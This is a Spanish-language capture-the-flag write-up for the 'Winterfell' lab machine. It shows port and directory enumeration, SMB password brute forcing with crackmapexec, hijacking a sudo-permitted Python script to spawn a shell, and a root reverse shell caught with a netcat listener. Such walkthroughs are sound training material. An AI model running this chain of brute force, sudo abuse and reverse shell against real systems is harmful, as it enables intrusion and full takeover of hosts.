

❄️ Máquina: Winterfell
📅 Publicado el 31/08/2025 | Categoría: LINUX
📝 Descripción
Reto ambientado en Juego de Tronos. El vector principal combina enumeración web
y servicios SMB para conseguir credenciales, pivotar entre usuarios en el sistema y finalizar con una
escalada de privilegios a root mediante un script privilegiado.
🔍 Reconocimiento
sudo nmap -p- -open -O -sS -sCV -min-rate 5000 -n -Pn -vvv 172.17.0.2
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 (Debian 12)
80/tcp open http Apache httpd 2.4.61 (Debian)
139/tcp open netbios-ssn Samba smbd 4
445/tcp open netbios-ssn Samba smbd 4
HTTP y SMB llaman la atención para la enumeración inicial.
🌐 Enumeración Web
gobuster dir -u http://172.17.0.2/
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
-x php,html,txt -t 50 -r
/index.html (200)
/dragon (200)
El directorio /dragon contiene pistas/“episodios”.
Guardamos palabras para un diccionario personal.
📦 SMB: usuarios y fuerza bruta
enum4linux -a 172.17.0.2
# Usuarios válidos descubiertos: jon, aria, daenerys
# SMBv1 está deshabilitado, usamos CrackMapExec (maneja SMBv2/3)
crackmapexec smb 172.17.0.2 -u users.txt -p list.txt
SMB 172.17.0.2 [+] 172.17.0.2\jon:seacercaelinvierno
Con las palabras de /dragon y los usuarios de SMB obtenemos
la primera credencial: jon : seacercaelinvierno.
📂 Acceso a compartidos
smbclient //172.17.0.2/shared -U jon
Password for [WORKGROUP\jon]:
smb: \> ls
. D 0 Sat Aug 30 21:57:45 2025
.. D 0 Tue Jul 16 16:25:59 2024
proteccion_del_reino N 313 Tue Jul 16 16:26:00 2024
82083148 blocks of size 1024. 44533204 blocks available
smb: \> get proteccion_del_reino
Contenido de el archivo proteccion_del_reino
Deciframos el mensaje:
echo 'aGlqb2RlbGFuaXN0ZXI=' | base64 -d
hijodelanisterLa cadena Base64 revela hijodelanister, que usaremos para el siguiente acceso.
🧩 Acceso por SSH y movimiento lateral
ssh jon@172.17.0.2
# password: hijodelanister
# Capacidad de ejecutar un script como "aria" sin password
sudo -l
User jon may run the following commands:
(aria) NOPASSWD: /usr/bin/python3 /home/jon/.mensaje.py
# Reemplazamos el script con un shell
jon@44a71ad38e16:~$ rm .mensaje.py
rm: remove write-protected regular file '.mensaje.py'? yes
jon@44a71ad38e16:~$ nano .mensaje.py
#import os
#os.system("/bin/bash")
sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py # => shell como aria
Con aria podemos leer la carpeta de daenerys y encontrar
una nota con su contraseña.
sudo -u daenerys /usr/bin/cat /home/daenerys/mensajeParaJon
Aria estare encantada de ayudar a Jon con la guerra en el norte, siempre y cuando despues Jon cumpla y me ayude a recuperar el trono de hierro.
Te dejo en este mensaje la contraseña de mi usuario por si necesitas llamar a uno de mis dragones desde tu ordenador.
!drakaris!
su daenerys
# password: !drakaris!👑 Escalada a root
sudo -l
User daenerys may run the following commands:
(ALL) NOPASSWD: /usr/bin/bash /home/daenerys/.secret/.shell.sh
# El script lanza una reverse shell como root
# (Ajustar IP/puerto en el script si es necesario)
# Atacante
nc -lvnp 4444
# Víctima (como daenerys)
sudo /usr/bin/bash /home/daenerys/.secret/.shell.sh
# Sesión entrante
root@44a71ad38e16:/home# whoami
rootEjecutando el script privilegiado se obtiene una shell de root en el listener.
🏁 Resultado
Acceso total a la máquina con privilegios de root tras encadenar:
enumeración web → SMB (credenciales) → SSH (jon) → sudo a aria (script) →
lectura de secreto → daenerys → ejecución de script privilegiado.